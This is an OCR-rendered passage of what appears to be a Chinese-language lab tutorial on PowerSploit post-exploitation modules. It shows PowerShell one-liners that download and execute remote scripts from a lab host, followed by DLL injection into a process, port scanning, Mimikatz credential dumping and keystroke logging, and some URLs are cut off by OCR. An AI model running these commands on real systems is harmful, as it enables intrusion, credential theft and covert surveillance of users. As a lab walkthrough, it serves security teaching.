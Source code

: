 ```powershell
#下载脚本
PS C:\Users\baji> IEX (New-Object Net.WebClient).DownloadString("http://192.168.160
-DllInjection.ps1")
#启动一个新进程
PS C:\Users\baji> get-process notepad

Handles  NPM(K)    PM(K)      WS(K) VM(M)   CPU(s)     Id ProcessName
-------  ------    -----      ----- -----   ------     -- -----------
     56       7     1420       5352    75     0.02   4172 notepad
#进程注入
PS C:\Users\baji> Invoke-DllInjection -ProcessID 2008 -Dll C:\Users\baji\test.dll
```

反弹成功

#### 3、Invoke-Portscan

nvoke-Portscan是Recon模块下的一个脚本，主要用于端口扫描

```powershell
#下载
PS C:\Users\baji> IEX (New-Object Net.WebClient).DownloadString("http://192.168.160.129/powersploit/Recon/Invoke-Portscan.ps1")
#使用
PS C:\Users\baji> Invoke-Portscan -Hosts 192.168.160.129 -Ports "80,22,3389"

Hostname      : 192.168.160.129
alive         : True
openPorts     : {80}
closedPorts   : {22, 3389}
filteredPorts : {}
finishTime    : 2021/3/4 17:46:49
```

#### 4、Invoke-Mimikatz

Invoke-Mimikatz是Exfiltration模块下的一个脚本

```powershell
#下载
PS C:\Users\baji> IEX (New-Object Net.WebClient).DownloadString("http://192.168.160.129/powersploit/Exfiltration/Invo
Mimikatz.ps1")
#调用
PS C:\Users\baji> Invoke-Mimikatz -DumpCreds
```

具体用法这里就不作详细介绍了，在我的上一篇文章后渗透攻击里有详细的介绍

#### 5、Get-Keystrokes

Get-Keystrokes是Exfiltration模块下的一个脚本，用于键盘记录，功能相当强大，不仅有键盘输入记录，甚至能记录鼠标的点击情况，还能记录详细的时间

```powershell
#下载脚本
PS C:\> IEX (New-Object Net.WebClient).DownloadString("http://192.168.160.129/powersploit/Exfiltration/Get-Keystrokes.ps1
")
#指定记录文件-test1.txt
PS C:\> Get-Keystrokes -LogPath C:\Users\zhiji\test1.txt
```
